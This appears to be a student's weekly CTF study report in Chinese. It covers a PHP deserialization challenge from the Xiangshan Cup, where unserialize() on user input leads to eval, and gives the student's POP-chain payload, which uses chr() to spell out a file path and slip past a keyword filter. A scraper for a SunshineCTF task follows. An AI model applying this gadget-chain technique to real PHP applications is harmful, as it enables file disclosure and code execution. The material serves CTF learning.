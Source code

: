 汇报人：黄昱卓<br />日期：2023.10.15
<a name="NeVyy"></a>
## 本周重点
<a name="dZwDV"></a>
### 1.任务进展
进行了二面，打了香山赛和sunshinectf见了一下世面，然后就是常规学习，练习命令注入
<a name="RWzxH"></a>
### 2.成果总结
有一些有意思的有代表性的题<br />1.
```php
<?php
highlight_file(__FILE__);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    if(isset($_GET['data']))
        unserialize($_GET['data']);
        
```
香山杯pop链
```php
$pop = new Welcome;
$pop -> name = 'A_G00d_H4ck3r';
$pop -> arg = new H4ck3r;
$pop -> arg -> func = new G00d;
$pop -> arg -> func -> shell = 'strtolower';
$pop -> arg -> func -> cmd = 'show_source(chr(47).chr(102).chr(49).chr(97).chr(103));';
echo serialize($pop);
```
和之前遇到的一样，但是新认识了一个strtolower函数，可以把ancii码拼接成字符串

2.sunshinectf爬虫<br />这是我第一次正式用爬虫做题，题目链接已经关闭了我把示列代码还留着
```python
import requests
import json

# 遍历所有的post_id
for post_id in range(1, 1000):
    # 格式化post_id
    post_id_str = str(post_id).zfill(3)
    
    # 发送请求
    response = requests.get(f"https://beepboop.web.2023.sunshinectf.games/post/{post_id_str}/",verify=False)
    
    # 检查响应状态码
    if response.status_code == 200:
        # 解析JSON数据
        data = response.json()
        
        # 保存JSON数据到文件
        with open(f"{post_id_str}.json", 'w') as file:
            json.dump(data, file)
    else:
        print(f"Failed to get post {post_id_str}")
```

```python
import os
import json

# 获取当前目录下的所有文件
files = os.listdir()

# 遍历所有文件
for filename in files:
    # 检查文件是否为JSON文件
    if filename.endswith('.json'):
        # 打开并读取JSON文件
        with open(filename, 'r') as file:
            data = json.load(file)
            
            # 将JSON数据转换为字符串
            data_str = json.dumps(data)
            
            # 检查字符串是否包含'flag'或'sunshine'
            if 'flag' in data_str:
                print('flag' + str(data))
            if 'sunshine' in data_str:
                print('sunshine'+ str(data))
            if 'sun{' in data_str:
                print(str(data))
```
<a name="eQV68"></a>
## 思考
> 我一直有很多题会卡题，明明思路对了，最后就是做不出来，做不出来就焦虑，心态不好，太着急了

所以我还是得先多见见题型，把每种考法的题都练熟<br />期待在智邮的第一周

